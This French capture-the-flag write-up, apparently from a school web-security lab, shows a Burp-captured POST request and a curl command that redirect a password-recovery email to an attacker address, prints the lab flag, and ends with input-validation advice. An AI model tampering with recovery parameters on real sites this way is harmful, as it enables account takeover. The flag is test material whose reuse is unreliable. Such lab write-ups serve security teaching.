 # Unvalidated redirection mail

## Exploitation

Avec BurpSuite on peux changer la requete envoyer au serveur pour changer la destination du mail qui est initialement prevue

	POST /?page=recover HTTP/1.1
	Host: 192.168.122.55
	User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:71.0) Gecko/20100101 Firefox/71.0
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
	Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
	Accept-Encoding: gzip, deflate
	Content-Type: application/x-www-form-urlencoded
	Content-Length: 39
	Origin: http://192.168.122.55
	Connection: close
	Referer: http://192.168.122.55/?page=recover
	Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
	Upgrade-Insecure-Requests: 1

	mail=hacker%40borntosec.com&Submit=Submit

avec curl:

```bash
$> curl 'http://192.168.99.100/?page=recover' --data 'mail=hacker%40borntosec.com&Submit=Submit' | grep flag

The flag is : 1d4855f7337c0c14b6f44946872c4eb33853f40b2d54393fbe94f49f1e19bbb0
```

## Resolution

Ne faites jamais confiance aux champs de saisie utilisateur. Toutes les entrées des utilisateurs doivent être considérées comme non fiables et potentiellement malveillantes. 
Les applications qui traitent les entrées non fiables peuvent devenir vulnérables aux attaques telles que les dépassements de tampon, l'injection SQL, la commande du système d'exploitation, le déni de service et l'injection d'e-mails.
Utilisez des regex pour filtrer les données utilisateur. Par exemple, nous pouvons rechercher (\r ou \n) dans la chaîne d'entrée.
